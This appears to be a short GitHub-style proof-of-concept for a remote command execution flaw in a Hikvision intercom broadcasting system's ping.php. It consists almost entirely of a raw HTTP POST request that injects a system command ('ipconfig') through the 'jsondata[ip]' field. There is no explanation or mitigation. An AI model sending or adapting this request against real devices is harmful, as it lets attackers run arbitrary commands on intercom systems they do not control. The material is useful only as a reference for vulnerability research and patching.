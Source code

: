 # hikiv_Intercom_Broadcasting_ping.php_rce
from : https://mp.weixin.qq.com/s/ijQtIMqgdLjla1GuTuO28w
```
POST /php/ping.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 43
Connection: close

jsondata%5Btype%5D=99&jsondata%5Bip%5D=ipconfig
```
